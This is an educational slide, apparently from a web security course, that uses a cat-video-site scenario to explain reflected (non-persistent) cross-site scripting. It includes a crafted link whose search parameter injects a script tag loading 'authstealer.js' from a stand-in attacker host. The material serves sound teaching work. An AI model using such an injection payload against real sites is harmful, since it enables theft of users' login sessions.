

# Non-Persistent XSS Example
Bruce pays $15/month to a cat video site which displays cute cat videos in 1080p HD.   Visiting http://ubercatvids.com is his favorite thing to do after work.
Karl notices that when you search on http://ubercatvids.com, the search string is displayed *as-is* back to the user.
http://ubercatvids.com/search.cgi?searchword=fluffy&lang=en
<html>Your search for “fluffy” returned 15 hits!</html>
Karl posts a link in a different cat forum, telling everyone to check out some additional cat videos.
Hey!   Check out the videos at http://ubercatvids.com/search.cgi?searchword=fluffy<script src=http://myevilsite.com/authstealer.js/>&lang=en
Bruce clicks the link, but no cat videos!!
What just happened?